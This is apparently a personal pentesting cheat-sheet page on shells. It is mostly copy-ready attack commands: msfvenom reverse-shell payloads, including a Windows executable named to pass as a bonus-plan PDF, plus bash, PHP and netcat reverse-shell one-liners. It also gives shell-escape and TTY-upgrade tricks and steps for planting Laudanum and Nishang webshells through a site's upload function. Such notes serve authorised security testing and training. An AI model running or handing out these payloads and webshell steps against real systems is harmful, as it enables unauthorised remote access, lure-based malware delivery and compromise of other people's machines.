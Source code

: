 ```yaml
---
title: Pentesting - Shell
author: ioritz_elisa 
date: 2023-07-28 0:0:00 +0000 
categories: [Notes, Pentesting, Shell] 
tags: [Create Custom Shell, Reverse Shell, Scape Restricted Shell, TTY, Webshell] 
pin: true
---
```



## Create Custom Reverse Shell with online Tool

> Interesting website for generating custom reverse shell

https://www.revshells.com/



## Create Custom Reverse Shell with msfvenom

> Syntax:

```
msfvenom -p <architecture> LHOST=<IP> LPORT=<port> -f <formatPayload> > <outputFile>
```

Example - create ELF file (Linux executable):

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```

Example - create EXE file (Windows executable):

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```



## Examples Reverse Shell

> bash

Command syntax:

```
bash -i >& /dev/tcp/<IP>/<port> 0>&1
```

> php

* [pentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Or

```
php -r '$sock=fsockopen("<IP>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

> netcat

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <port> >/tmp/f
```

More reverse shells: [ironHackers](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/)

On Windows:

```
nc.exe -nv <IP> <Port> -e cmd.exe
```

On Linux:

```
nc -nv <IP> <port> -e /bin/bash
```



## Establish the Connection

Syntax:

```
nc -nlvp <port>
```



## Scape Restricted Shell

One way to escape from a restricted reverse shell is to execute the command before opening the session:

```
ssh user@10.129.13.173 -t "whoami"
```



## Interactive Shell (TTY)

> Once a shell is obtained, it should always be made interactive:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
/bin/bash -i
```

```
echo os.system("/bin/bash")
```

```
perl —e 'exec "/bin/sh";'

perl: exec "/bin/sh";
```

```
ruby: exec "/bin/sh"
```

```
!sh
```

```
/bin/sh -i
```

```
awk 'BEGIN {system("/bin/sh")}'
```

```
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

```
find . -exec /bin/sh \; -quit
```

```
vim -c ':!/bin/sh'
```



## Webshells

> Repository Laudanum

Laudanum is a collection of pre-built files designed to be injected into a target system, enabling the attacker to gain access through a reverse shell. It allows running commands on the victim's host directly from the browser and offers injectable files for various web application languages like `asp, aspx, jsp, php`, and others. The repository provides attackers with a range of tools to exploit web application vulnerabilities and gain unauthorized access to targeted systems.

[Github  laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)

Laudanum Demonstration

1. Move a Copy for Modification

```
cp /usr/share/webshells/laudanum/aspx/shell.aspx /home/tester/demo.aspx
```

2. Modify the Shell for Use
3. Take Advantage of the Upload Function (if its exists in the web)
4. Once the upload is successful, you will need to navigate to your web shell to utilize its functions.

> Repository Nishang

Nishang is an Offensive PowerShell toolset that can provide options for any portion of your pentest.

https://github.com/samratashok/nishang

Demonstration

1. Move a Copy for Modification.

```
cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx
```

2. Same steps as in the previous section.

> PHP web shells

[Github Repository PHP webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

> Webshell in PHP with Graphic interface:

[https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash)


